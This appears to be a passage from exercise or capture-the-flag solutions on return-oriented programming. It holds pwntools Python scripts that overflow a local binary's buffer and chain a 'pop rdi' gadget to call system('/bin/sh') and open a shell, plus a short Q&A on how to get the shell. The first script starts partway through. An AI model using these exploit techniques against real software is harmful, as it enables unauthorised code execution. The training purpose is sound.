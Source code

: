 ```python
ret = 0x000000000040101a
main = 0x401352


payload = flat(
    b'A' * offset,
    ret,
    pop_rdi,
    souldream,
    0xdeadbeef,
    dream_msg
)

#f = open("payload", "wb")
#f.write(payload)
#f.close()

p.sendline(payload)
p.interactive()
```

### [Q8]: How do you get a shell?
### Solution to [Q8]:
Find offset, find `pop rdi; ret` gadget, find address of `souldream`, find address of `system`, place `/bin/sh` at the beginning of the payload and call it later.

## Solution to Exercise 2:
```python
#!/usr/bin/env python3

from pwn import *

p = process('./bin/ex2')
context.binary = './bin/ex2'
elf = ELF('./bin/ex2')

offset = 72 - len(b"/bin/sh;")

# pop rdi & pop rbp
pop_rdi = 0x4012b5

souldream = 0x404060
system = elf.plt['system']

payload = flat(
    b"/bin/sh;",
    b'A' * offset,
    pop_rdi,
    souldream,
    0xdeadbeef,
    system
)


f = open("payload", "wb")
f.write(payload)
f.close()

p.sendline(payload)
p.interactive()
```
